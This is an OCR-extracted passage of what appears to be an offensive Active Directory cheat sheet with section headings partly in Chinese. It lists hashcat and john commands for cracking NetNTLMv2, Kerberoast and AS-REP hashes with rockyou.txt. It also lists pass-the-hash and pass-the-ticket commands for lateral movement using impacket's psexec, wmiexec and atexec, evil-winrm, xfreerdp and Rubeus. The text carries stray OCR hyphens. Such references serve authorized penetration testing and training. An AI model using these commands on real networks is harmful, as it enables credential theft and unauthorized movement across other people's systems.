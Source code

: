 #### 4.NTLMv2


john --format=netntlmv2 hash.txt-
-
hashcat -m 5600 -a 0 hash.txt rockyou.txt-

#### 5.Kerberos 5 TGS



john spn.txt --format=krb5tgs --wordlist=rockyou.txt-
-
hashcat -m 13100 -a 0 spn.txt rockyou.txt-

#### 6.Kerberos ASREP

1-

hashcat -m 18200 -a 0 AS-REP\_roast-hashes rockyou.txt-

# 9.横向移动

## 1.PTH




```
psexec.py -hashes ":<hash>" <user>@<ip>-
-
wmiexec.py -hashes ":<hash>" <user>@<ip>-
-
atexec.py -hashes ":<hash>" <user>@<ip> "command"-
-
evil-winrm -i <ip>/<domain> -u <user> -H <hash>-
-
xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>-
```


## 2.PTK


```
python getTGT.py <domain>/<user> -hashes :<hashes>-
export KRB5CCNAME=/root/impacket-examples/domain\_ticket.ccache-
python psexec.py <domain>/<user>@<ip> -k -no-pass-
-
Rubeus asktgt /user:victim /rc4:<rc4value>-
Rubeus ptt /ticket:<ticket>-
Rubeus createnetonly /program:C:\\Windows\\System32\\\[cmd.exe||upnpcont.exe\]-
Rubeus ptt /luid:0xdeadbeef /ticket:<ticket>-
```

